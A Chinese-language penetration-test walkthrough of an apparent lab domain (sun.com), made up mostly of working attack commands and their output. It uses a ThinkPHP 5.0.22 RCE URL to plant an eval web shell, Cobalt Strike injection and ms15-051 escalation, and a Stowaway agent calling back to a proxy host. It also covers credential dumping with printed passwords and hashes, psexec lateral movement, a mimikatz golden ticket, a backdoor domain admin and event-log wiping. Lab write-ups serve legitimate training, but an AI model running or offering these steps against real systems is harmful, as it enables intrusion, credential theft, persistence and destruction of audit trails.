









## 打点

报错页面显示版本号




thinkphp 5.0.22 rce

```
http://192.168.111.150/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell.php&vars[1][]=%3C?php%20@eval($_POST[1]);?%3E
```


## 内网

上线CS，先注入进程

```
inject 2044 x64 0411
```

### 信息收集

存在两张网卡，并且存在域 `sun.com`

```
ipconfig /all

Windows IP 配置

   主机名  . . . . . . . . . . . . . : win7
   主 DNS 后缀 . . . . . . . . . . . : sun.com
   节点类型  . . . . . . . . . . . . : 混合
   IP 路由已启用 . . . . . . . . . . : 否
   WINS 代理已启用 . . . . . . . . . : 否
   DNS 后缀搜索列表  . . . . . . . . : sun.com

以太网适配器 本地连接:

   ......
   IPv4 地址 . . . . . . . . . . . . : 192.168.138.136(首选) 
   子网掩码  . . . . . . . . . . . . : 255.255.255.0
   默认网关. . . . . . . . . . . . . : 
   DHCPv6 IAID . . . . . . . . . . . : 352324649
   DHCPv6 客户端 DUID  . . . . . . . : 00-01-00-01-25-F1-93-23-00-0C-29-CE-6E-F7
   DNS 服务器  . . . . . . . . . . . : 192.168.138.138
   TCPIP 上的 NetBIOS  . . . . . . . : 已启用

以太网适配器 wk1 waiwang:

   ......
   IPv4 地址 . . . . . . . . . . . . : 192.168.111.150(首选) 
   子网掩码  . . . . . . . . . . . . : 255.255.255.0
   默认网关. . . . . . . . . . . . . : 
   DHCPv6 IAID . . . . . . . . . . . : 234884137
   DHCPv6 客户端 DUID  . . . . . . . : 00-01-00-01-25-F1-93-23-00-0C-29-CE-6E-F7
   DNS 服务器  . . . . . . . . . . . : 8.8.8.8
   TCPIP 上的 NetBIOS  . . . . . . . : 已启用
```

`192.168.138.138`为域控



探测存活主机

```
arp -a

Inteface  --- 0x1
Internet Address        Physical Address        Type                    
224.0.0.22                                      static                  

Inteface  --- 0xB
Internet Address        Physical Address        Type                    
192.168.111.25          00-50-56-B1-16-8A       dynamic                 
192.168.111.255         FF-FF-FF-FF-FF-FF       static                  
224.0.0.22              01-00-5E-00-00-16       static                  
224.0.0.252             01-00-5E-00-00-FC       static                  

Inteface  --- 0x10
Internet Address        Physical Address        Type                    
192.168.138.138         00-50-56-B1-01-55       dynamic                 
192.168.138.255         FF-FF-FF-FF-FF-FF       static                  
224.0.0.22              01-00-5E-00-00-16       static                  
224.0.0.252             01-00-5E-00-00-FC       static    
```

### 搭建代理

搭建代理，准备扫内网

使用 `stowaway`

```
linux_x64_admin.exe -l 9999 -s test
.\windows_x64_agent.exe -c 192.168.111.25:9999 -s test
```

提权到 `system`



```
elevate ms15-051 0411
```

抓 hash 密码

```
hashdump
logonpasswords
```

```
# Cobalt Strike Credential Export
# 04/17 18:01

WIN7\Administrator:::31d6cfe0d16ae931b73c59d7e0c089c0:::
WIN7\Guest:::31d6cfe0d16ae931b73c59d7e0c089c0:::
SUN\Administrator dc123.com
SUN.COM\Administrator dc123.com
WIN7\heart:::a34efdd63a23abea4413ba73cafa5a30:::
SUN\Administrator:::e8bea972b3549868cecd667a64a6ac46:::
SUN\Administrator\SUN\Administrator dc123.com
```

尝试横向到域控

```
proxychains4 impacket-psexec SUN/administrator:dc123.com@192.168.138.138
```



CS 使用 SMB 横向到域控





### 权限维持

#### 黄金票据

导出 krbtgt 用户的hash

```
04/17 18:23:52 beacon> hashdump

Administrator:500:aad3b435b51404eeaad3b435b51404ee:e8bea972b3549868cecd667a64a6ac46:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:65dc23a67f31503698981f2665f9d858:::
admin:1000:aad3b435b51404eeaad3b435b51404ee:a57a02a0b863380719d95ef7b26187af:::
leo:1110:aad3b435b51404eeaad3b435b51404ee:afffeba176210fad4628f0524bfe1942:::
DC$:1001:aad3b435b51404eeaad3b435b51404ee:d011ca5c1e18d39796ae1b2064368ad2:::
WIN7$:1105:aad3b435b51404eeaad3b435b51404ee:0d11e1d6b1f7dd2718b1d8416189a2f4:::
```

获取域的SID `S-1-5-21-3388020223-1982701712-4030140183`

```
04/17 18:28:53 beacon> shell wmic useraccount get name,sid

Name           SID

Administrator  S-1-5-21-3388020223-1982701712-4030140183-500   
Guest          S-1-5-21-3388020223-1982701712-4030140183-501   
krbtgt         S-1-5-21-3388020223-1982701712-4030140183-502   
admin          S-1-5-21-3388020223-1982701712-4030140183-1000  
leo            S-1-5-21-3388020223-1982701712-4030140183-1110 
```

创建

```
mimikatz kerberos::golden /user:test /domain:sun.com /sid:S-1-5-21-3388020223-1982701712-4030140183 /krbtgt:65dc23a67f31503698981f2665f9d858 /endin:480 /renewmax:10080 /ptt
```



查看票据

```
klist
mimikatz kerberos::list
```





添加域控管理员

```
net user C0rr3ct 'QWE!23' /add /domain
net group "domain admins" C0rr3ct /add /domain
net group "domain admins" /domain
```

## 痕迹清理

`wevtutil` 是 Windows 系统内置的命令行工具，用于管理 Windows 事件日志

```
wevtutil cl security	//清理安全日志
wevtutil cl system		//清理系统日志
wevtutil cl application		//清理应用程序日志
wevtutil cl "windows powershell"	//清除power shell日志
wevtutil cl Setup
```

